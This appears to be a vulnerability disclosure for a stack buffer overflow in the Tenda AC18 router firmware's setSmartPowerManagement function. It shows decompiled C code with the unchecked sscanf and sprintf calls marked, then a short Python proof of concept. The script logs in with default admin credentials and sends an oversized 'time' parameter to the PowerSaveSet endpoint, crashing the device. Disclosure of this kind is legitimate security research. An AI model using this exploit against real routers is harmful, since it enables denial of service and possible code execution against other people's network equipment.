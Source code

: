 ## Tenda AC18 stack overflow vulnerability

### * Version

V15.03.05.19_multi (ac18_kf_V15.03.05.19(6318_)_cn.bin)

### * Firmware
[https://www.tenda.com.cn/download/detail-2683.html](https://www.tenda.com.cn/download/detail-2683.html)




### * Vulnerability Detail

In function setSmartPowerManagement, the content obtained by the program from the parameter "time" is passed to local_1c, 
and then the local_1c is directly parsed into the local_2c, local_34, local_3c, local_44 stack through the sscanf function.
There is no size check, so there is a stack overflow vulnerability. The attacker can easily perform a Deny of Service Attack or Remote Code Execution with carefully crafted overflow data.

```c
void setSmartPowerManagement(undefined4 param_1)

{
  int iVar1;
  undefined4 local_164;
  undefined4 local_160;
  undefined4 local_15c;
  undefined4 local_158;
  undefined4 local_154;
  undefined4 local_150;
  undefined4 local_14c;
  undefined4 local_148;
  char acStack324 [128];
  char acStack196 [128];
  undefined4 local_44;
  undefined4 local_40;
  undefined4 local_3c;
  undefined4 local_38;
  undefined4 local_34;
  undefined4 local_30;
  undefined4 local_2c;
  undefined4 local_28;
  char *local_24;
  undefined4 local_20;
  char *local_1c;
  char *local_18;
  undefined4 local_14;
  
  local_18 = (char *)0x0;
  local_1c = (char *)0x0;
  local_20 = 0;
  local_24 = (char *)0x0;
  local_2c = 0;
  local_28 = 0;
  local_34 = 0;
  local_30 = 0;
  local_3c = 0;
  local_38 = 0;
  local_44 = 0;
  local_40 = 0;
  memset(acStack196,0,0x80);
  memset(acStack324,0,0x80);
  local_164 = 0;
  local_160 = 0;
  local_15c = 0;
  local_158 = 0;
  local_154 = 0;
  local_150 = 0;
  local_14c = 0;
  local_148 = 0;
  local_14 = 1;
  local_18 = (char *)FUN_0002ba8c(param_1,"powerSavingEn",&DAT_000f3b34);
  local_1c = (char *)FUN_0002ba8c(param_1,"time","00:00-7:30");
  local_20 = FUN_0002ba8c(param_1,"powerSaveDelay",&DAT_000f3cbc);
  local_24 = (char *)FUN_0002ba8c(param_1,"ledCloseType","allClose");
  sscanf(local_1c,"%[^:]:%[^-]-%[^:]:%s",&local_2c,&local_34,&local_3c,&local_44);  //here is overflow
  sprintf(acStack196,"%s:%s",&local_2c,&local_34);  //here is overflow
  sprintf(acStack324,"%s:%s",&local_3c,&local_44);  //here is overflow
  GetValue("sys.sched.led.closetype",&local_164);
  iVar1 = strcmp(local_24,(char *)&local_164);
  if (iVar1 != 0) {
    SetValue("power.sleep.closetype.changed",&DAT_000f3cbc);
  }
  SetValue("sys.powersleep.enable",local_18);
  SetValue("sys.powersleep.start_time",acStack196);
  SetValue("sys.powersleep.end_time",acStack324);
  SetValue("sys.powersleep.type",local_20);
  SetValue("sys.sched.led.closetype",local_24);
  iVar1 = atoi(local_18);
  ...
}
```

### * POC
```python
import requests


cmd  = b'powerSavingEn=1&time='+ b'A' * 800 + b':' + b'A' * 800 + '-' + b'A' * 800 + b':'+ b'A' * 800 + b'&powerSaveDelay=&ledCloseType=1'


url = b"http://192.168.2.2/login/Auth"
payload = b"http://192.168.2.2/goform/PowerSaveSet/?" + cmd

data = {
    "username": "admin",
    "password": "admin",
}

def attack():
    s = requests.session()
    resp = s.post(url=url, data=data)
    print(resp.content)
    resp = s.post(url=payload, data=data)
    print(resp.content)

attack()

```
